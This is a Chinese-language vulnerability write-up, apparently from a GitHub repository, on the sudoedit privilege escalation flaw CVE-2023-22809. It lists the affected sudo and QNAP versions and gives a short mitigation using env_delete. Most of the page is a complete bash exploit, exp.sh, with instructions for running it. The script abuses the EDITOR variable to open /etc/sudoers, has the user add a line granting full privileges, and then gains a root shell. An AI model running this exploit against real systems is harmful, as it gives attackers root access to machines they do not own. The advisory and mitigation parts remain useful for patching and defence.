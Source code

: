# Linux sudo权限提升漏洞 CVE-2023-22809

# Linux Sudo权限提升漏洞 CVE-2023-22809

## 漏洞描述

Sudo 存在权限提升漏洞，攻击者可过特定的 payload 获取服务器 root 权限。

Sudo 中的 sudoedit 对处理用户提供的环境变量（如`SUDO_EDITOR`、`VISUAL`和`EDITOR`）中传递的额外参数存在缺陷。当用户指定的编辑器包含绕过 sudoers 策略的 " –" 参数时，拥有sudoedit 访问权限的本地攻击者可通过将任意条目附加到要处理的文件列表中，最终在目标系统上实现权限提升。该漏洞还影响部分 QNAP 操作系统：QTS、QuTS hero、QuTScloud、QVP（QVR Pro 设备）。

## 漏洞影响

```
Sudo:
1.8.0~1.9.12p1 均受影响

QTS 与 QuTS hero：
QTS < 5.0.1.2346 build 20230322
QuTS < hero h5.0.1.2348 build 20230324
```

## 漏洞复现

exp.sh：

```
#!/usr/bin/env bash
#
# Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation
# 
# Exploit Author: n3m1.sys
# CVE: CVE-2023-22809
# Date: 2023/01/21
# Vendor Homepage: https://www.sudo.ws/
# Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
# Version: 1.8.0 to 1.9.12p1
# Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9
#
# Running this exploit on a vulnerable system allows a localiattacker to gain 
# a root shell on the machine.
#
# The exploit checks if the current user has privileges to run sudoedit or 
# sudo -e on a file as root. If so it will open the sudoers file for the
# attacker to add a line to gain privileges on all the files and get a root 
# shell.

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi

EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
sudo su root
exit 0
```

查看本地 sudo 版本：

```
sudo -V
```

执行文件：

```
./exp.sh
```

## 修复建议

使用 sudoedit 时，将受影响的环境变量添加到 env_delete 拒绝列表中，例如：

```
Defaults!SUDOEDIT env_delete+="SUDO_EDITOR VISUAL EDITOR"
Cmnd_Alias SUDOEDIT = sudoedit /etc/custom/service.conf
user ALL=(ALL:ALL) SUDOEDIT
```


